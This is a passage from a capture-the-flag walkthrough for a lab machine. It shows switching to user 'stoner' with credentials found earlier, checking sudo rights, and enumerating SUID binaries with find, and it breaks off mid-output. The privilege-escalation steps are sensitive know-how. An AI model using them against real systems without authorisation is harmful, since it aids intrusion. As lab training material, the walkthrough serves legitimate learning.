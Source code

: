 > 
> USER=[REDACTED]
> 
> #[REDACTED]
> 
> ...



That looks like credentials for another user!

### Privilege esclataion to stoner

Since we now have the user's name and password, lets change switch to them.


> $ su stoner
> 
> Password: 
> 
> stoner@Vulnerable:/home/basterd$ 


The user flag can be found in stoner's home directory, as a hidden file.


### Privilege escalation to root

Let's do sudo -l:


> 
> stoner@Vulnerable:~$ sudo -l
> 
> User stoner may run the following commands on Vulnerable:
> 
>     (root) NOPASSWD: /NotThisTime/MessinWithYa
>     
> stoner@Vulnerable:~$ 



Looks like another troll! 


Lets try find files that we can run with our SUID bit:


> stoner@Vulnerable:~$ find / -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null
> 
> -rwsr-xr-x 1 root root 38900 Mar 26  2019 /bin/su
> 
> -rwsr-xr-x 1 root root 30112 Jul 12  2016 /bin/fusermount
> 
> -rwsr-xr-x 1 root root 26492 May 15  2019 /bin/umount
> 
> -rwsr-xr-x 1 root root 34812 May 15  2019 /bin/mount
> 
> -rwsr-xr-x 1 root root 43316 May  7  2014 /bin/ping6
> 
> -rwsr-xr-x 1 root root 38932 May  7  2014 /bin/ping
> 
> -rwsr-xr-x 1 root root 13960 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
> 
> -rwsr-xr-- 1 root www-data 13692 Apr  3  2019 /usr/lib/apache2/suexec-custom
> 
> -rwsr-xr-- 1 root www-data 13692 Apr  3  2019 /usr/lib/apache2/suexec-pristine
> 
> -rwsr-xr-- 1 root messagebus 46436 Jun 10  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
> 
> -rwsr-xr-x 1 root root 513528 Mar  4  2019 /usr/lib/openssh/ssh-keysign
> 